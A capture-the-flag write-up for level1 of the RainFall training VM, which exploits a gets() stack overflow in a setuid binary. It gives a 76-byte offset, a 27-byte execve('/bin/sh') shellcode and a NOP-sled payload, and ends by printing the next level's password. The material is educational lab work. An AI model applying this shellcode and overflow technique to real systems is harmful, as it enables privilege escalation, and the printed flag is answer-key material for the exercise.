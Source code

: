 # level01

- We login as user level01:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```
level1@RainFall:~$ gdb level1
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```


- This exercise is an introduction to stack [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).
The program generously allows us to write without limits into its stack.
We just need to write enough characters to reach the return address of the `main` function.
Then, we will replace this address with the address of a memory area that will contain a [shellcode](https://en.wikipedia.org/wiki/Shellcode) which will call `execve("/bin/sh")`.


- First, we need to know from how many characters the return address of our function starts to be substituted. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).
>`msf-pattern_offset -l [pattern length] -q [saved EIP address]`


- The return address is found to be replaced after the 76th character:
```
(gdb) b*0x08048495
```

```
r < <(python -c "print('A'*76 + 'BBBBCCCC')")
Starting program: /home/user/level1/level1 < <(python -c "print('A'*76 + 'BBBBCCCC')")

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```
>`saved eip 0x42424242`


- 42 is the hexadecimal ASCII value of the character 'B'. So, `BBBB` should be replaced with an address that points to the beginning of our shellcode.


- Let's make that shellcode.
```asm
section .text
    global _start

_start:
    xor esi, esi            ; 
    xor edi, edi            ; 
    xor ecx, ecx            ; 
    xor edx, edx            ; Cleaning registers

    push edx                ; Null terminate the string
    push 0x68732f2f         ; Pushing "//sh"
    push 0x6e69622f         ; Pushing "/bin"
    
    mov ebx, esp            ; Pointer to the string
    xor eax, eax            ;
    mov al, 0xb             ; 11 is the syscall number of execve
    int 0x80
```

```
$ nasm -f elf32 src.asm -o obj.o
```

```
$ objdump -d obj.o

test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 f6                   xor    %esi,%esi
   2:   31 ff                   xor    %edi,%edi
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   52                      push   %edx
   9:   68 2f 2f 73 68          push   $0x68732f2f
   e:   68 2f 62 69 6e          push   $0x6e69622f
  13:   89 e3                   mov    %esp,%ebx
  15:   31 c0                   xor    %eax,%eax
  17:   b0 0b                   mov    $0xb,%al
  19:   cd 80                   int    $0x80
```


- So we have a 27 bytes shellcode.
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```


- Now, we need to store our shellcode somewhere in the program's memory, for example, writing it into the memory area filled by `<gets@plt>`. Let's start by retrieving this memory address.
```
level1@RainFall:~$ gdb level1
```

```
(gdb) b*0x08048495
```

```
(gdb) r < <(echo -n "123")
Starting program: /home/user/level1/level1 < <(echo -n "123")

Breakpoint 1, 0x08048495 in main ()
(gdb) x $eax
0xbffff6d0:     0x00333231
```


- The address is `0xbffff6d0`, this means that by launching our program like so `(gdb) r < <(python -c "print '$SHELLCODE' + 'a'*(76 - 27) + '\xd0\xf6\xff\xbf'")`, the program's execution flow should be redirected to our shellcode.


- However, `(gdb) r < <(echo lol)` is equivalent to `$ echo lol | our_binary`. Thus, the pipe will send EOF once `lol` has been transmitted to `our_binary`, which means that `stdin` will be closed for `our_binary`. Since `execve()` inherits the I/O of the parent process, our `/bin/sh` would close immediately. That's why we will add `cat` to keep `stdin` open during `execve()`.
```
(gdb) r < <(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat)
...
whoami
level1
```


- A shell has been successfully launched, let's take advantage of [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) by doing the same thing without GDB.
```
level1@RainFall:~$ (python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat) | ./level1

Illegal instruction (core dumped)
```


- It doesn't work, indeed, the environment is slightly different between a program launched with/without GDB. That's why the exact address we are targeting isn't exactly the same. We therefore need to find the correct address. By adding [NOP instructions](https://fr.wikipedia.org/wiki/NOP) before our shellcode, we can make the address search less laborious. We would then be tempted to do it like this:
```
python -c "print '\x90'*49 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\xd0\xf6\xff\xbf'"
```


- But since our shellcode is stored directly in the stack, and `esp` is at that moment of program execution at the level of the previous stack frame, our instructions `push $0x68732f2f` and `push 0x6e69622f` would corrupt our shellcode, and it wouldn't work.
So, we need to keep a bit of space, precisely 8 bytes:
```
python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xd0\xf6\xff\xbf'"
```

- Thus, thanks to these NOP instructions, the execution of our shellcode will be able to succeed from a broader range of addresses.
```
level1@RainFall:~$ (python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xf0\xf6\xff\xbf'"; cat) | ./level1

whoami
level2

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
